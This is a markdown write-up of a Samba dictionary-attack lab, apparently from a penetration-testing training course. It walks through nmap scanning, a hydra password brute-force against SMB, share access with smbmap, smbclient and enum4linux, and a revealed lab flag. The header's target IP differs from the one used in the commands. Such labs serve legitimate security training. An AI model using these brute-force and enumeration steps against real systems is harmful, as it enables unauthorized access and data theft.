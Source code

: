 # 🔬SAMBA

## Lab 1

>  🔬 [Samba Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=556)
>
>  - Target IP: `192.174.58.3`
>  - **Brute-force** of SAMBA service
>
>  - **Enumeration, brute-force, tools and flags** have been already covered in this [SMB Enum Lab 6](../../../assessment-methodologies/3-enumeration/smb-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.34.128.3
```

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
```

> 📌 Server is running SAMBA on the standard port `445`

### Brute-Force

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.34.128.3 smb
```

```bash
[445][smb] host: 192.34.128.3   login: admin   password: password1
```

![hydra admin](.gitbook/assets/image-20230319171607544.png)

### Login and Enumeration

- Use `SMBMap` tool

```bash
smbmap -H 192.34.128.3 -u admin -p password1
```

```bash
Disk  Permissions
----  -----------
shawn  READ, WRITE
nancy  READ ONLY
admin  READ, WRITE
IPC$   NO ACCESS
```

- Use `smbclient` tool to access Samba sources

```bash
smbclient -L 192.34.128.3 -U admin
```

```bash
smbclient //192.34.128.3/shawn -U admin
```

```bash
help
dir
# check files and folders in that share
```

```bash
smbclient //192.34.128.3/nancy -U admin
```

```bash
cd dir\
get flag
exit
```

```bash
smbclient //192.34.128.3/admin -U admin
```

```
cd hidden
get flag.tar.gz
exit
```

```bash
tar xzf flag.tar.gz
cat flag
```

- Use `enum4linux`tool

```bash
enum4linux -a 192.34.128.3
# a = enumerate all information
```

![](.gitbook/assets/image-20230319172449606.png)

```bash
enum4linux -a -u admin -p password1 192.34.128.3
```

![enum4linux part of response](.gitbook/assets/image-20230319172756465.png)



<details>
<summary>Reveal Flag:  🚩</summary>



`2727069bc058053bd561ce372721c92e`

</details>

------

